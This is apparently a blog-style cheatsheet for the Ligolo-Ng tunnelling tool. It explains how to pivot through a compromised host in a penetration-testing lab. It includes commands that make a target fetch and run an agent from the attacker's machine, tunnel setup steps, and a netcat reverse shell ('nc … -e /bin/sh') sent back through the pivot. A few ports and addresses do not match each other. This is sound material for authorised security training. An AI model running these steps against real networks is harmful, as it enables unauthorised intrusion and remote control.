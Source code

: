 ```yaml
---
layout: post
title:  Ligolo-Ng Cheatsheet
description: Cheatsheet for Ligolo-Ng
date:   2024-10-31 09:00:00 +0300
image:  '/images/21.jpg'
tags:   [Cheatsheets, Tools, Pivoting]
---
```

# Getting Ligolo-Ng
Important Note: Make sure you are always using the same version of Proxy and Agent (For example, both Proxy and Agent must be 0.7.2).

## Download the binaries manually (recommended)
### PROXY (Run this on Kali)
- [Linux 64-bits Proxy](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_proxy_0.7.2-alpha_linux_amd64.tar.gz)
- [Windows 64-bits Proxy](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_proxy_0.7.2-alpha_windows_amd64.zip)

### AGENT (Run this on Pivot Host)
- [Linux 64-bits Agent](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_agent_0.7.2-alpha_linux_amd64.tar.gz)
- [Windows 64-bits Agent](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_agent_0.7.2-alpha_windows_amd64.zip)

For more information about Ligolo-Ng, visit its official [GitHub Repository](https://github.com/nicocha30/ligolo-ng).

# Alternative with Package Installer
```shell
sudo apt install ligolo-ng
# Locate, copy the needed files and run them (Example with agent file)
sudo updatedb -v
locate agent
sudo cp /path/to/ligolo/agent .
sudo chmod +x agent
./agent
```

# Basic Pivot
Move the agent file into the pivot host:
```shell
# On Kali
sudo cp /home/kali/Downloads/ligolo-ng_agent_0.7.2_linux_amd64/agent .
python3 -m http.server 443
# On Target (Linux)
cd /tmp
wget http://<kali_ip>:443/agent
# On Target (Windows using PowerShell)
cd C:\Windows\Temp
powershell -c iwr http://<kali_ip>:443/agent.exe -OutFile agent.exe
```
Set up Ligolo-Ng on Kali:
```shell
# Create an interface
sudo ip tuntap add user Vorkharium mode tun ligolo
sudo ip link set ligolo up
# Add new IP range we want to access (Examine Pivot Host with ifconfig, ip a, etc commands)
sudo ip route add 172.16.150.0/24 dev ligolo
ip route list
# Run the proxy file
sudo chmod +x proxy
./proxy -selfcert
# The Ligolo-Ng console will now open (We will interact with it soon)
```

On the Pivot target, use the agent file to connect to our running proxy:
```shell
# On Linux
chmod +x agent
./agent --connect <kali_ip>:11601 -ignore-cert
# On Windows PowerShell
./agent.exe --connect <kali_ip>:11601 -ignore-cert
```

Now enter the following on the Ligolo-Ng console:
```shell
# Enter "session" to show the available sessions
ligolo-ng » session
# Enter "1" to select the session we created when using the agent (There is only one session to choose in this case)
? Specify a session : 1
# Enter "start" to start the connection
[Agent : hackme@compromisedmachine] » start
# Now we are able to access the network 172.16.150.0/24
```

## File Transfer Example with Single Pivot
In this example:
- We got access into the Host B 172.16.150.20 (We are inside its CLI).
- We previously set up our Pivot Host A, in this case 172.16.150.10.
- Now we want to move a file from Kali (192.168.45.200) to Host B (172.16.150.20) through our Pivot Host A (172.16.150.10).

To achieve that, we will create a new listener in our active Ligolo-Ng session:
```shell
# Create new listener - Port 1234 on Kali will be the Port 9001 on the Pivot Host A
# Enter the following on the running active Kali Ligolo-Ng session
listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:9001
# Start Python server on Kali using Port 1234
python3 -m http.server 1234
# From the Host B CLI, access Python server through Port 9003 at the Pivot Host
wget http://172.16.150.10:9001/test.txt
```

## Reverse Shell Example with Single Pivot
Following the example above, we will create a new listener, but this time we will use that listener to get a Reverse Shell:
```shell
# Create new listener - Port 1235 on Kali will be the Port 9002 on the Pivot Host A
# Enter the following on the running active Kali Ligolo-Ng session
listener_add --addr 0.0.0.0:1235 --to 0.0.0.0:9002
# Start nc listener on Kali Port 1235
nc -lvnp 1235
# Enter the following at Linux CLI on Host B to access the nc listener through Pivot Host A Port 9002
nc 172.16.150.10 9002 -e /bin/sh
# Now we successfully got a shell from the Host B (172.16.50.20) to our Kali
```
